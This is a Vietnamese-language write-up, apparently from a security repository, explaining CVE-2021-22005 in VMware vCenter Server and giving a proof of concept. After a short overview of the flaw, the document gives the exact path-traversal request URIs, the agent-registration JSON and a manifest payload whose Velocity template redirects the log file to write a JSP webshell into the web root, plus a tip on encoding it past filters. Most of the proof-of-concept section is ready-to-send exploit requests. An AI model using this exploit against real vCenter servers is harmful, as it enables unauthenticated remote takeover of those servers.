

# PHẦN 2: CVE-2021-22005

## 1. Tổng quan lỗ hổng
* **Mã định danh:** `CVE-2021-22005`
* **Loại lỗ hổng:** Arbitrary File Upload dẫn đến Remote Code Execution (RCE).
* **Đối tượng bị ảnh hưởng:** VMware vCenter Server (phiên bản 6.7 và 7.0).
* **Điểm CVSS:** **9.8** (Critical).
* **Mô tả ngắn gọn:**
    Đây là lỗ hổng **Arbitrary File Upload** (Tải lên tệp tùy ý) không cần xác thực. Kẻ tấn công có thể "đánh lừa" dịch vụ Analytics của vCenter để tự tạo ra một tệp mã độc (Webshell), từ đó chiếm toàn quyền điều khiển máy chủ. Bất kỳ ai có khả năng kết nối mạng đến cổng `443` (HTTPS) của vCenter Server đều có thể khai thác mà không cần quyền quản trị hay thậm chí là một tài khoản khách thông thường.

## 2. Chuỗi tấn công
Dịch vụ Analytics trên vCenter được thiết kế để nhận dữ liệu từ các thành phần khác. Điểm yếu nằm ở việc nó cho phép người dùng gửi các tệp cấu hình (**Manifest**) để định nghĩa cách dữ liệu được xử lý.

Thông thường, một tệp cấu hình (Manifest) chỉ chứa các thông số tĩnh. Tuy nhiên, vCenter lại sử dụng **Velocity Template Language (VTL)** – một ngôn ngữ lập trình mạnh mẽ – để xử lý các tệp này. Thay vì chỉ đọc dữ liệu, vCenter sẽ "chạy" các câu lệnh nằm trong tệp Manifest đó. Kẻ tấn công đã lợi dụng điều này để chèn vào những dòng mã độc hại, biến một tệp cấu hình đơn giản thành một bộ lệnh điều khiển hệ thống Java bên dưới.

> **Mô phỏng:** Để hiểu cách tệp Manifest tạo ra Webshell, hãy tưởng tượng hệ thống ghi nhật ký (Logger) của vCenter giống như một người thư ký đang cầm bút ghi chép mọi hoạt động vào một cuốn sổ log cất trong kho kín.

Kẻ tấn công thực hiện quy trình "đánh tráo" qua 3 bước lệnh VTL:

1.  **Chiếm quyền điều khiển "Cây bút":** Thông qua lệnh VTL, kẻ tấn công yêu cầu hệ thống cho phép can thiệp vào bộ phận ghi log (`Appender`).
2.  **Thay đổi "Cuốn sổ":** Thay vì ghi vào file log ẩn trong hệ thống, kẻ tấn công ra lệnh: *"Từ giờ, hãy ghi mọi thứ vào một tệp mới tên là `shell.jsp` và đặt nó vào thư mục gốc của trang web (Web Root)"*.
3.  **Ghi nội dung độc hại:** Sau khi đã đổi hướng "ngòi bút" sang file `shell.jsp`, kẻ tấn công chỉ cần gửi một thông báo cảnh báo (`Warning`) chứa mã độc Java. Hệ thống vCenter, lúc này vẫn đang thực hiện lệnh ghi log, sẽ "vô tình" chép toàn bộ mã độc đó vào file `shell.jsp`.

---

# PHẦN 3: POC CVE-2021-22005

Trước tiên, kẻ tấn công cần đăng ký một "Agent" và một ID giả trong dịch vụ Analytics để hệ thống sẵn sàng tiếp nhận tệp Manifest ở bước sau.

### Bước 1: Đăng ký Agent
* **Method:** `POST`
* **URI:**
    ```text
    /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=PWNPOC&_i=PWNPOC
    ```
    *(**Lưu ý:** Điểm bắt đầu của cuộc tấn công nằm ở việc bypass bộ lọc URL của vCenter. Dịch vụ Analytics có các endpoint nhạy cảm thường bị chặn truy cập từ bên ngoài. Tuy nhiên, bằng cách sử dụng kỹ thuật **Path Traversal** với dấu chấm phẩy (`;`), kẻ tấn công có thể "nhảy" vào các API nội bộ.)*

* **Headers:** `Content-Type: application/json`
* **Body (JSON):**

```json
{
    "manifestSpec": {},
    "objectType": "a2",
    "collectionTriggerDataNeeded": true,
    "deploymentDataNeeded": true,
    "resultNeeded": true,
    "signalCollectionCompleted": true,
    "localManifestPath": "a7",
    "localPayloadPath": "a8",
    "localObfuscationMapPath": "a9"
}
```
<p align="left">
  
</p>

### Bước 2: Gửi Payload (Manifest chứa VTL)
Sau đó chúng ta gửi một tệp XML Manifest chứa mã Velocity Template (VTL) để ra lệnh cho hệ thống ghi đè file log.

* **Method:** `POST`
* **URI:**
``` text
/analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=PWNPOC&_i=PWNPOC
```
* **Body (JSON):**

```json

{
  "contextData": "a3",
  "manifestContent": "<manifest><request><query name=\"vir:VCenter\"><constraint><targetType>ServiceInstance</targetType></constraint><propertySpec><propertyNames>content.about.instanceUuid</propertyNames></propertySpec></query></request><cdfMapping><indepedentResultsMapping><resultSetMappings><entry><key>vir:VCenter</key><value><value xmlns:xsi=\"[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)\" xsi:type=\"resultSetMapping\"><resourceItemToJsonLdMapping><forType>ServiceInstance</forType><mappingCode><![CDATA[#set($appender = $GLOBAL-logger.logger.parent.getAppender(\"LOGFILE\"))$appender.setFile(\"/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/shell.jsp\")$appender.activateOptions()$logger.warn(\"<% out.println(\\\"Pwned by CVE-2021-22005\\\"); %>\")]]></mappingCode></resourceItemToJsonLdMapping></value></value></entry></resultSetMappings></indepedentResultsMapping></cdfMapping></manifest>",
  "objectId": "a2"
}
```

* **Giải thích mã VTL bên trong:**

$appender.setFile(...): Trỏ đích đến của log vào file shell.jsp trong thư mục web.

$logger.warn(...): Ghi dòng mã JSP <% out.println(...) %> vào file đó. Đây là mấu chốt của việc tạo Webshell.

Lưu ý: Nội dung bên trong $logger.warn(...) cần phải được Unicode encode để bypass bộ lọc.
<p align="left">
  
</p>

## Demonstration

<video controls width="700">
  <source src="./0113.mp4" type="video/mp4">
  Trình duyệt của bạn không hỗ trợ thẻ video.
</video>
